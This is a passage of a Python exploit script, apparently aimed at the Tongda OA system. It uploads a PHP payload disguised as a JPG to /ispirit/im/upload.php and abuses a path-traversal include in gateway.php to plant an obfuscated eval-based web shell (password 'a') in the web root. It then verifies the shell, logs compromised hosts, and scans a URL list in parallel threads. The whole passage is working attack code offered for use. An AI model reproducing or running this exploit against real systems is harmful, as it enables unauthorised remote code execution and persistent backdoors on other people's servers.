         # password:a
        # POST method
        # base64.decode: <?php $a="~+d()"^"!{+{}";$b=${$a}["a"];eval("".$b);echo "sucess !!";?>
        b64Shell = "PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJhIl07ZXZhbCgiIi4kYik7ZWNobyAi" + base64.b64encode(shellFlag.encode("utf-8")).decode("utf-8") + "Ijs/Pg=="
        
        uploadData = "------fuck123\r\nContent-Disposition: form-data; name=\"UPLOAD_MODE\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"P\"\r\n\r\n" + cookie[cookie.find("=")+1:cookie.find(";")] + "\r\n------fuck123\r\nContent-Disposition: form-data; name=\"DEST_UID\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"ATTACHMENT\"; filename=\"jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php\r\nfile_put_contents($_SERVER[\"DOCUMENT_ROOT\"].\"/" + webPath + "\", base64_decode('" + b64Shell + "'));\r\necho \"" + uploadFlag + "\";\r\n?>\r\n------fuck123--"
        try:
            uploadHeader["Cookie"] = cookie
            req1 = requests.post(u + "/ispirit/im/upload.php", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
            text = req1.text
            if req1.status_code == 200 and "[vm]" in text:
                uploadFilePath = text[text.find("@")+1:text.find("|")].replace("_", "/")
                includeData = 'json={"url":"/general/../../attach/im/' + uploadFilePath + '.jpg"}'
                req2 = requests.post(u + "/mac/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
                if req2.status_code == 404 or uploadFlag not in req2.text:
                    req2 = requests.post(u + "/ispirit/interface/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
                if req2.status_code == 200 and uploadFlag in req2.text:
                    shellPath = u + webPath
                    req3 = requests.get(shellPath, headers=header, verify=False, timeout=25)
                    if shellFlag in req3.text:
                        printFlag = "[Getshell]：" + shellPath + "\t" + cookie + "\n"
                        wirte_targets(shellPath, "vuln.txt")
        except:
            pass
        print(printFlag, end="")


    def multithreading(funcname, filename="url.txt", pools=5):
        works = []
        with open(filename, "r") as f:
            for i in f:
                func_params = [i.rstrip("\n")]
                works.append((func_params, None))
        pool = threadpool.ThreadPool(pools)
        reqs = threadpool.makeRequests(funcname, works)
        [pool.putRequest(req) for req in reqs]
        pool.wait()
